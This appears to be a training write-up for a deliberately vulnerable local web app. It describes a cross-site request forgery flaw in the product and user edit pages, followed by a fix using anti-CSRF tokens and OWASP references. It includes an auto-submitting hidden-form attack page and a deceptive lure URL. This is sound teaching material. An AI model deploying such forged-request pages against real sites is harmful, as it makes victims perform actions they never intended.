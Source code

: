 # Cross-site Request Forgery

## CSRF in Add/Edit product, User Edit

The application is vulnerable to a Cross-sites-Request-Forgery in `Product Management` feature. The application fails to implement anti-CSRF token to prevent forced browsing.

http://127.0.0.1:9090/app/modifyproduct

http://127.0.0.1:9090/app/useredit

This issue can be exploited by an attacker by hosting a malicious page like the one below and tricking the victim onto visiting it. The below example will add a new product on behalf of the victim on visiting a crafted URL like `http://youtube.com.xyz.nxd/watch/v=cute-kitten` by the attacker

*Attacker's Webpage*
```html
<html>
    <body onload='document.hidden_form.submit()'>
        <form name="hidden_form" method="POST" action="http://127.0.0.1:9090/app/modifyproduct">
            <input type="hidden" name="name" value="Hacked">
            <input type="hidden" name="code" value="hacked">
            <input type="hidden" name="tags" value="hack">
            <input type="hidden" name="description" value="This is a hacked product">
        </form>
    </body>
</html>
```

**Solution**

CSRF vulnerabilities can be fixed by ensuring anti-CSRF tokens are needed for successful form submission. 

This can be done by using a module like [csurf](https://www.npmjs.com/package/csurf), and can save time needed to correctly implement your own logic.

**Fixes**

Implemented in the following files

- *routes/app.js*
- *core/appHandler.js*
- *views/app/modifyproducts.ejs*
- *views/app/useredit.ejs*

**Reference**

- https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
- https://github.com/expressjs/csurf